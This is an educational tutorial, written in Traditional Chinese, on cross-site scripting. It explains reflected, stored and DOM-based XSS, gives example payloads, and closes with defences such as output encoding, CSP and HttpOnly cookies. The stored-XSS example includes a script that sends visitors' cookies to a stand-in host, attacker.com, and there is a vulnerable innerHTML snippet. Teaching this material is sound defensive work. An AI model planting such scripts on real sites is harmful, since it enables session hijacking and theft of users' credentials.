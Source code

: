 ### **跨站腳本攻擊（XSS）**

跨站腳本攻擊（Cross-Site Scripting，簡稱XSS）是一種Web應用程序漏洞，攻擊者利用這種漏洞將惡意的JavaScript腳本注入到網站或Web應用中，從而影響該網站的使用者。這些腳本通常在用戶的瀏覽器中執行，並且可能會竊取敏感信息、劫持會話、篡改網站內容或發動其他攻擊。

XSS攻擊分為三種主要類型：反射型XSS、存儲型XSS和DOM型XSS。

---

#### **1. XSS攻擊的工作原理**

XSS攻擊的基本原理是將惡意JavaScript代碼注入到Web應用的輸入點（如表單、URL參數、用戶評論等），當應用未能正確處理或過濾這些輸入時，這些代碼將被返回並執行，從而達到攻擊的目的。攻擊者通常會利用用戶的信任，將腳本嵌入到網頁中，使得當目標用戶加載網頁時，惡意腳本在其瀏覽器中執行。

1. **識別可注入的輸入點**：
   - 攻擊者首先識別網站的輸入點，這些輸入點可能是用戶提交的表單、URL中的查詢參數、留言區等。

2. **注入惡意JavaScript代碼**：
   - 攻擊者將JavaScript代碼插入到這些輸入點中。例如，插入一段代碼來竊取用戶的登錄憑證或發送請求到攻擊者控制的伺服器。

3. **執行惡意代碼**：
   - 當網站返回這些未經過濾的輸入數據並呈現在用戶瀏覽器上時，惡意代碼被執行，可能會竊取用戶信息、篡改頁面內容，或將用戶重定向到惡意網站。

---

#### **2. XSS的類型**

1. **反射型XSS（Reflected XSS）**
   - 反射型XSS發生在用戶的請求立即被Web伺服器反射並返回，其中包含的惡意腳本在頁面加載時執行。這種攻擊通常通過誘使用戶點擊包含惡意腳本的鏈接來發動。
   
   - **工作原理**：攻擊者向用戶發送一個URL，該URL中包含惡意JavaScript代碼。當用戶點擊該URL時，服務器將用戶的請求反射回應，並執行其中的惡意代碼。
   
   - **範例**：
     ```html
     <script>alert('XSS Attack!');</script>
     ```
     如果該代碼被直接反射回用戶瀏覽器，並在頁面中執行，就會顯示一個警告框。

2. **存儲型XSS（Stored XSS）**
   - 存儲型XSS是一種較為危險的XSS攻擊，惡意腳本被持久存儲在目標網站的數據庫中，當用戶訪問該頁面時，這段腳本會自動執行。這種攻擊通常通過用戶提交的數據（如論壇帖子、評論、用戶名等）來實現。
   
   - **工作原理**：攻擊者提交一段惡意的JavaScript代碼，並將其存儲在Web應用的數據庫中。當其他用戶訪問包含該內容的頁面時，存儲在數據庫中的惡意腳本被回顯並執行。
   
   - **範例**：
     攻擊者可以提交以下內容作為論壇帖子的內容：
     ```html
     <script>document.location="http://attacker.com/steal?cookie=" + document.cookie;</script>
     ```
     當其他用戶查看該帖子時，攻擊者的腳本將竊取他們的cookie信息。

3. **DOM型XSS（DOM-based XSS）**
   - DOM型XSS是基於瀏覽器端腳本的漏洞，發生在網站的前端（即瀏覽器）中，當JavaScript從DOM中提取數據並將其動態插入到頁面中時，如果沒有正確處理用戶輸入，就會導致XSS攻擊。與反射型和存儲型XSS不同，DOM型XSS不需要伺服器端的反射或存儲，而是依賴於前端JavaScript處理的漏洞。
   
   - **工作原理**：攻擊者通過操控URL中的片段（如哈希值）或表單參數來將惡意腳本注入到頁面中，然後頁面中的JavaScript代碼會直接將這些數據插入到DOM中執行。
   
   - **範例**：
     假設頁面中的JavaScript代碼如下：
     ```javascript
     document.getElementById('output').innerHTML = location.hash;
     ```
     如果攻擊者將URL設置為：
     ```text
     http://example.com/#<script>alert('XSS')</script>
     ```
     那麼頁面中的JavaScript會將`<script>alert('XSS')</script>`插入到DOM中，並執行該腳本。

---

#### **3. 防範XSS攻擊的方法**

1. **輸入驗證與過濾**
   - 對所有用戶輸入進行檢查，過濾掉可能包含惡意腳本的字符，如`<`, `>`, `"`等。特別是對HTML或JavaScript相關的輸入進行處理。

2. **輸出編碼**
   - 對輸出的數據進行適當的編碼，將HTML特殊字符（如`<`, `>`, `&`）轉換為其對應的實體（如`&lt;`, `&gt;`, `&amp;`），這樣即使用戶提交的數據中包含腳本，也不會被執行。

3. **使用內容安全策略（CSP）**
   - 內容安全策略（Content Security Policy，CSP）是一種防範XSS攻擊的有效方法。CSP允許網站管理員設定哪些域名可以加載和執行JavaScript，從而減少XSS攻擊的風險。

4. **避免直接在頁面中插入用戶輸入**
   - 當需要在頁面中插入用戶輸入時，應避免直接將其放入JavaScript或HTML中，而是使用更安全的方法，如使用`textContent`代替`innerHTML`來處理文本插入。

5. **使用HTTPOnly和Secure屬性設置Cookie**
   - 對於敏感信息，如身份驗證cookie，應設置`HTTPOnly`屬性，防止JavaScript訪問；並設置`Secure`屬性，確保只有在HTTPS連接中傳送。

---

#### **總結**

XSS攻擊是一種基於Web的攻擊方式，攻擊者通過將惡意JavaScript腳本注入到網站或應用程序中，對用戶進行攻擊。常見的XSS攻擊類型包括反射型XSS、存儲型XSS和DOM型XSS。防範XSS攻擊的方法包括對用戶輸入進行過濾、輸出編碼、使用內容安全策略、避免直接插入用戶輸入等。通過採取這些措施，可以有效減少XSS攻擊的風險，保護用戶數據和網站的安全。